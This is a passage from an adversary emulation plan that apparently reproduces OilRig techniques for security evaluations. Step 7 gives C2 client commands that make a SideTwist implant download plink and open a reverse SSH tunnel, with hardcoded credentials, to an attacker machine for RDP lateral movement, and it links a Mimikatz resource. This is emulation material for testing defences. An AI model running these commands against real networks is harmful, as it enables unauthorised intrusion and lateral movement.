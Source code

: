 <br>

*  Mimikatz: [Mimikatz](../Resources/Mimikatz/)

<br>

### :microscope: Cited Intelligence
*  Credential dumping: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 7 - Lateral Movement to EWS via RDP Tunnel

### :microphone: Voice Track

Step 7 emulates OilRig moving laterally to `WATERFALLS (10.1.0.6)`. This is 
accomplished with a remote port forward using the plink command line tool 
(downloaded by `SystemFailureReporter.exe`). OilRig conducts a remote port forward 
from `THEBLOCK (10.1.0.5)` to the attacking machine to allow RDP access through 
port 3389 as user `gosta`.

---

### ☣️ Procedures

Download plink to `THEBLOCK (10.1.0.5)` using SideTwist and start plink tunnel 
to gain RDP access to `WATERFALLS (10.1.0.6)` from the Linux Attack Platform.

```bash
./evalsC2client.py --set-task goTb '102 c:\users\public\downloads\plink.exe|plink.exe'
```

Execute the remote port forward command using SideTwist. Note: this SideTwist 
process will persist as long as the tunnel is open and as such will need to be 
closed after the activity is done. SideTwist will continue to execute
via schtask so other commands can be issued to the implant if needed.

```bash
./evalsC2client.py --set-task goTb '101 echo y | c:\users\public\downloads\plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l saka -pw "$ceKa#zU$Uc4^9yZ" 192.168.0.4'
```

Ensure that the tunnel is open and listening on port 13389 on Linux Attack Platform.

```bash
netstat -antulp | grep 13389
```

You should see a result that looks like the following:
```
tcp        0      0 127.0.0.1:13389         0.0.0.0:*               LISTEN
```

RDP to `WATERFALLS (10.1.0.6)` as user Gosta from Linux Attack Platform using the SSH
tunnel.
